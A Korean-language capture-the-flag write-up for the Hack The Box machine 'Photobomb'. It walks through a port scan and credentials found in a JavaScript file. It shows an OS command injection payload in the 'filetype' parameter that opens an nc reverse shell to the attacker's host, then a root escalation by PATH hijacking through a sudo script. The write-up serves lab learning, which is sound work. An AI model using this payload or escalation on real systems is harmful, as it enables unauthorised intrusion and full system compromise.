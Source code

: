 ```yaml
---
title: "[Hack The Box] Photobomb 풀이"
categories:
  - Hack-The-Box
tags:
  - HTB
  - Hack The Box
  - Photobomb
toc: true
toc_sticky: true
toc_label: "Photobomb 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/hackthebox.jpeg
---
```


💡 Hack-The-Box Photobomb 풀이 입니다.
{: .notice--warning}

# 문제

![image](https://user-images.githubusercontent.com/33647663/219938714-11872e62-dc99-4652-93ff-70dcf5bc56ff.png)


# Enumeration

```bash
┌──(root㉿kali)-[/home/kali/Desktop]
└─ nmap -sV -p - -vv --min-rate 3000 10.129.228.60
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-19 03:09 EST
Discovered open port 22/tcp on 10.129.228.60
Discovered open port 80/tcp on 10.129.228.60
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 42.79 seconds
           Raw packets sent: 86968 (3.827MB) | Rcvd: 80330 (3.213MB)


```



# HTTP
![image](https://user-images.githubusercontent.com/33647663/219938887-9ce22de5-488a-4b04-afb2-e7689213f24d.png)

소스코드를 확인해봅니다.

![image](https://user-images.githubusercontent.com/33647663/219938902-365bc112-d749-40aa-93f3-a363d8be223a.png)

```photobomb.js``` 스크립트 파일을 살펴보면 다음과 같이 id,pw를 알 수 있습니다.

![image](https://user-images.githubusercontent.com/33647663/219938914-8257f7a0-756a-4868-a248-e9ff658247aa.png)

해당 사이트는 이미지를 다운로드 하는 기능이 존재합니다.

![image](https://user-images.githubusercontent.com/33647663/219938953-e15f3f2a-97ae-4ead-ab9c-c0a768d0d09a.png)

이미지를 다운로드 하기 위해 서버로 보내지는 매개변수들을 조작하기 위해서 burpsuite로 패킷을 잡습니다.

![image](https://user-images.githubusercontent.com/33647663/219939024-d1f70f50-8487-4a67-9f03-57f386f4c619.png)

파일의 이름(photo), 확장자(jpg), 해상도(dimensions)를 사용자의 입력값을 통해서 처리합니다. 

파일 다운로드 취약점이나, 확장자를 변환해주는 기능이 있기 때문에 OS Command Injection 취약점이 존재하는지 확인해 봅니다. 

filetype부분에서 ```OS Command Injection``` 취약점이 존재합니다.

filetype값을 다음과 같이 입력하여 reverse shell을 획득합니다.

```bash
# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.7 1234 >/tmp/f
filetype=jpg;rm+%2ftmp%2ff%3bmkfifo+%2ftmp%2ff%3bcat+%2ftmp%2ff%7c%2fbin%2fsh+-i+2%3e%261%7cnc+10.10.14.7+1234+%3e%2ftmp%2ff
```

![image](https://user-images.githubusercontent.com/33647663/219939436-f1620b21-ba0b-4513-a17c-75275c69d6f8.png)

# Privilege Escalation

![image](https://user-images.githubusercontent.com/33647663/219939467-16564e5b-34fd-463d-9f25-18afe0d2de5e.png)

```sh
(root) : root 권한으로 실행 가능
SETENV : sudo 명령어를 실행하면서 환경변수를 수정가능
NOPASSWD : sudo 명령어를 실행할때, 해당 계정의 비밀번호 필요 x
/opt/cleanup.sh : 해당 파일을 sudo 명령어로 수행가능
```

/opt/cleanup.sh 파일을 확인해 봅니다.

```sh
wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

root 권한으로 위의 쉘 스크립트를 수행합니다. 환경변수를 바꿀 수 있기 때문에 ```PATH```환경변수를 조작하여, find 명령어를 bash로 바꾸어 주면 root 권한 획득이 가능합니다.

```bash
cd /tmp
echo "bash" > find
chmod 777 find
sudo -u root PATH=/tmp:$PATH /opt/cleanup.sh
```

![image](https://user-images.githubusercontent.com/33647663/219939676-7cc814fc-690d-45a6-b518-05f7b0838f95.png)